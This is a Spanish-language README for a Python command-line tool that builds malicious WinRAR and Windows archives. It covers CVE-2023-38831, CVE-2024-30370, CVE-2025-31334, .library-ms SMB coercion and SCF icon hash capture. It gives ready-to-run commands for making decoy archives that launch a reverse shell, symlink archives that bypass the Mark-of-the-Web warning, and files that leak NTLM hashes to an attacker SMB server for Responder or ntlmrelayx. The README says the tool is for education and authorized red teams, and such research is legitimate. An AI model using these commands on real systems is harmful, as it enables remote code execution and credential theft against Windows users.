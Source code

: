 # 🧨 WinRAR & Windows Library Exploit Generator

**Generador de exploits para vulnerabilidades conocidas en WinRAR y Windows Library.**

Este script CLI permite crear archivos ZIP o RAR maliciosos para simular ataques reales y probar defensas de sistemas Windows.

> ⚠️ **Este proyecto es solo para uso educativo y entornos con autorización.**

---

## 🧩 CVEs Soportadas

| CVE / Técnica              | Descripción                                                                 |
|---------------------------|-----------------------------------------------------------------------------|
| **CVE-2023-38831**         | Ejecución remota (RCE) al hacer clic en un archivo señuelo en WinRAR       |
| **CVE-2024-30370**         | Bypass del Mark-of-the-Web usando symlink                                  |
| **CVE-2025-31334**         | WinRAR ejecuta un archivo real disfrazado sin advertencia                  |
| **Library `.library-ms`** | Windows abre conexión SMB externa al abrir archivo `.library-ms`           |
| **SCF (`.scf`)**           | Carga de íconos desde red SMB para capturar hashes                         |

---

## 🧰 Requisitos

- Python 3.7 o superior
- [`rar.exe`](https://www.win-rar.com/download.html) en el `PATH` (solo para `cve-dual`)
- Acceso con permisos de Administrador para crear symlinks en Windows
- Opcional:
  - [Responder](https://github.com/lgandx/Responder)
  - [ntlmrelayx](https://github.com/dirkjanm/ntlmrelayx)

---

## ⚙️ Modo de uso general

```bash
python main.py [modo] [opciones]
```

---

## 📌 Modo: `cve-2023-38831`

### ▶️ Descripción:
Exploit que manipula un archivo `.zip` para que al abrir un archivo señuelo, se ejecute un script malicioso.

### 🧪 Ejemplo:

```bash
python main.py cve-2023-38831 \
  --bait documento.pdf \
  --switch reverse_shell.cmd \
  --output exploit_38831.rar
```

---

## 📌 Modo: `cve-dual`

### ▶️ Descripción:
Crea un archivo `.rar` con un symlink y un ejecutable que evaden la advertencia MotW en Windows.

### 🧪 Ejemplo:

```bash
python main.py cve-dual \
  --payload payload.exe \
  --alt-name "seguro.exe" \
  --symlink-name "runme.exe" \
  --output exploit_dual.rar
```

---

## 📌 Modo: `library`

### ▶️ Descripción:
Crea un archivo `.library-ms` (y opcionalmente `.scf`) que se conecta a un servidor SMB remoto.

### 🧪 Ejemplo básico:

```bash
python main.py library \
  --file-name documentos \
  --ip 192.168.1.100 \
  --type basic \
  --output library_exploit.zip
```

### Tipos soportados:
- `basic` → Exploit simple con `.library-ms`
- `advanced` → Exploit avanzado con metadata extendida
- `scf` → Combinación de `.library-ms` y `.scf` (carga de íconos remota)
- `--commands` → Muestra comandos sugeridos para `ntlmrelayx` y payloads PowerShell

---

## 📌 Modo: `interactive`

### ▶️ Descripción:
Guía paso a paso para generar exploits de tipo Library desde la consola.

### 🧪 Ejemplo:

```bash
python main.py interactive
```

---

## 🧪 Payload de prueba (opcional)

Para pruebas seguras, puedes dejar que el script cree un ejecutable falso:

```bash
python main.py cve-dual --payload dummy.exe
```

---

## 🛑 Advertencia legal

Este proyecto está diseñado con fines:

- ✅ Educativos
- ✅ Red Team internos
- ✅ Investigación en ciberseguridad
- ✅ CTFs con entorno controlado

Queda prohibido su uso para:

- ❌ Actividades maliciosas
- ❌ Acceso no autorizado
- ❌ Daño a terceros

---

## 👨‍💻 Autor

Creado con fines de investigación ofensiva y defensa activa.

---
